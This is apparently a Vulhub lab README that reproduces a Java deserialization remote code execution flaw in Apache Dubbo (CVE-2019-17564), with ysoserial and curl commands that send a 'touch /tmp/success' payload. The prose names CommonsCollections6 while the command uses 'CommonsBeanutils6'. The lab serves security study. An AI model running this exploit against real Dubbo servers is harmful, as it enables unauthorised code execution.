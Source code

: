 # Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance, java based open source RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the `HttpInvokerServiceExporter`, which could lead to a RCE vulnerability:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

Reference links.

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## Vulnerable Application

Start an Apache Dubbo 2.7.3 Provider by executing the following command.

```
docker-compose up -d
```

After the service is started, browser ``http://your-ip:8080`` and the server will return an empty 500 error page by default.

## Exploit

It is important to know the RPC interface name before leveraging this vulnerability.

Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download [Zookeeper](https://zookeeper.apache.org/) and use the script **zkCli** to connect to the unauthenticated Zookeeper server:

```
./zkCli -server target-ip:2181
```

After connecting, it is come with an interactive console, where you can `ls` all nodes, including Dubbo-related configuration.

![](1.png)

Get the RPC interface named `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as POST body.

```
java -jar ysoserial.jar CommonsBeanutils6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

Entering the container, you can see that `touch /tmp/success` has been executed successfully.

![](3.png)
